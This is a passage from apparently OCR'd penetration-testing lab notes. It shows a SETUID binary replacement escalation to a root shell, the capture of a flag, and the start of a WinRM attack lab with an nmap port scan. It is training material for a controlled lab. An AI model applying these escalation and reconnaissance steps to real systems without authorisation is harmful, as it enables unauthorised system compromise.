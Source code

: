 **Execute Privilege Escalation:**
```bash
student@target:~$ ./welcome
root@target:/home/student#  ← Success! Root shell obtained!
```

#### **Phase 4: Privilege Verification and Objective Completion**

**Verify Root Access:**
```bash
root@target:/home/student# whoami
root

root@target:/home/student# id  
uid=0(root) gid=0(root) groups=0(root)
# Confirmed: Maximum privileges achieved
```

**Complete Mission Objective:**
```bash
root@target:/home/student# cd /root
root@target:/root# ls
flag

root@target:/root# cat flag
b92bcdc876d52108778e2d81f3b01494  ← Mission accomplished!
```

**What This Lab Demonstrates:**
- **Real SETUID binary exploitation** in controlled environment
- **Binary replacement attack** technique execution
- **Privilege escalation verification** through system commands
- **Complete system compromise** from limited user to root
- **Practical penetration testing** methodology application

---

### **🧪 Complete WinRM Exploitation Lab Example**

**Lab Scenario: Complete WinRM Attack Chain**

**Target:** demo.ine.local (10.0.28.252)
**Goal:** Gain full system control through WinRM service exploitation
**Method:** Service discovery → Authentication bypass → Credential attack → Shell access
**Time Needed:** 10-15 minutes

#### **Phase 1: Network Discovery and Service Identification**

**Port Scanning:**
```bash
nmap --top-ports 7000 demo.ine.local
# Key Results:
# 5985/tcp open  wsman  ← WinRM HTTP service detected!
# 135/tcp  open  msrpc
# 139/tcp  open  netbios-ssn  
# 445/tcp  open  microsoft-ds
# 3389/tcp open  ms-wbt-server
```

